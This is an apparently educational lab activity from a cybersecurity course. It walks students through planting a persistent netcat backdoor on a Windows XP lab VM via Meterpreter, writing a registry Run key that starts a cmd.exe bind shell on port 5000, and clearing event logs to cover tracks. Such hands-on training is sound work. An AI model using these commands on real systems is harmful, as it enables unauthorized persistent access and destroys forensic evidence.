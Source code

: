 ### ACTIVITY: BACKDOOR AND PERSISTENCE

*This activity is ungraded.*

**Remember:** Watch this Demo video. Seeing me complete the activity first will help you understand each of the steps.

- [Backdoor Demo](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/7fec1b031a5646cf9b780b8682c6639c)

**System:** During this activity, you’ll continue to use Metasploit as shown [in the first activity in this unit](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/4226c71eac07499bafd3e4de46462a09).

**Software:** In this activity you will use these applications and resources that are included in the Kali VM:

- **Metasploit**
- **Meterpreter**
- **netcat**, the TCP/IP Swiss Army Knife that lets you read from and write to networking connections using TCP or UDP

**Time:** This activity should take you approximately 30 minutes to complete.

#### Goal

- To set up a backdoor to a compromised machine.

#### Instructions

**Note:** Hit **Enter** after each command.

Once you have exploited a system, you have to maintain that level of access as patches, firewalls, and other fixes are implemented. These changes to an exploited system may prevent you from using the same exploit at some point in the future. To maintain persistence, we will be using a tool called netcat, to create a backdoor.

1. In the Windows XP VM, click *Start > Run*, and enter **msconfig**.

2. Examine the *Startup* tab. The Startup tab should not show any specific programs being launched automatically as the system boots.

3. In the meterpreter prompt within the Kali VM, enter **upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32**.
   This command uploads the Windows version of netcat (nc.exe) to the compromised system.

   Note the use of double back slashes in the Windows path, representing an escape character and then the literal backslash character

4. Enter **reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run** to see what is set in the one of the Run keys in the registry on the Windows XP system. Values in this key represent programs that will run every time the system starts.

5. Enter **reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 5000 -e cmd.exe****'**.

This command writes a value, represented by –v, to the registry key we accessed in the previous step.

- **–d** represents the data for the value. Specifically, it starts a netcat listener on port 5000 of the compromised system, so you can get back into the system with significantly less effort than before. This value will be loaded every time the Windows XP system boots.
- The upper case **L** option stands for: listen harder, re-listen on socket close.
- The **d** option stands for detach from console, background mode.
- The **p** option stands for local port number, which in this case, is 5000.
- The **-e** option specifies the inbound program to execute, cmd.exe.

To check the key, value, and data, **enter reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc**.

**Covering Your Tracks**

Before testing the backdoor, pentesters and hackers want to cover their tracks, which is usually the last step in any attack.

1. In the Windows XP VM, right click on *Start* and select *My Computer > Manage > System Tools > Event Viewer*. Examine the information it contains for log entries.
2. In Meterpreter, enter **clearev**. The log entries should disappear.
3. From Meterpreter, reboot the Windows XP system with the **reboot** command.
4. Close msfconsole and meterpreter.
5. Open up a new terminal, and enter **nc \*192.168.1.105 5000\*** *(using the IP of the Windows XP system)*. You should immediately be inside the Windows XP system.
6. Go back to the Windows XP VM, and view the Startup tab of *msconfig*. You’ll see the netcat backdoor in the Startup tab.

After you've finished, answer the **Check Your Work** questions.